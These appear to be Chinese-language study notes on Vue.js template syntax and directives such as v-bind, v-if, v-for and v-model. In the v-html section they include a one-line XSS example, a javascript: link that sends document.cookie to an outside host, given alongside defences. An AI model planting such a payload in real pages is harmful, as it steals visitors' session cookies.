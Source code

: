 4. `:src`、`:class`这样的写法的完整写法是：`v-bind:src`

5. 同理，事件 `@click`绑定的完整写法是：`v-on:click`

## 2. 模板语法

1. 插值

   1. 文本：`{{}}`
   2. 纯HTML

      ```
      v-html，放置XSS, CSRF(
      	(1) 前端过滤
      	(2) 后台转义(<> < >)
      	(3) 给cookie加上属性http
      )
      
      <a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>
      ```
   3. 表达式

2. 指令：是带有 `v-` 前缀的特殊属性

   - `v-bind`：动态绑定属性

   - `v-if`：动态创建/删除，有更高的**切换**开销
     - `v-else`
     
     - `v-else-if`，可以写多个
     
     - `template v-if`：包装元素template不会被创建，通过这种方式可以让被template包装的内容同生共死
     
       ```html
       <template v-if="isCreated">
       	<div>111</div>
       	<div>222</div>
       </template>
       ```
     
   - `v-show`：动态显示/隐藏，有更高的**初始渲染**开销

   - `v-on:click`：绑定事件

   - `v-for`：遍历/循环【视频2新增下面内容】

     - 可以通过 `v-for="({title, state}, index) in datalist"`的方式，对循环中的对象进行解构
     - v-for 中的 `in` 关键字可以换成 `of`，因为 `of` 更像js的迭代器的感觉
     - **v-for还可以对对象进行遍历**，`v-for="(value, key, index) in itemObj"`，可以拿到三个参数
     - v-for还可以对数字进行range，`v-for="item in 10"` 类似于python的 `for i in range(1, 11)`，需要注意的是，vue是从1开始到值结束，是包含的
     - **注意：** v-for 和 v-if  **不能同时使用**，如果有类似的需求可以先 v-for + template，然后 v-if 

   - `v-model`：双向绑定表单

     - 【多选样例】cc的初始化用数组，这样勾选后会直接把value值加入到数组中，就不用每个checkbox绑定一个v-model的变量了

       ```html
       <input type="checkbox" v-model="cc" value="1" />1
       <input type="checkbox" v-model="cc" value="2" />2
       <input type="checkbox" v-model="cc" value="3" />3
       ```
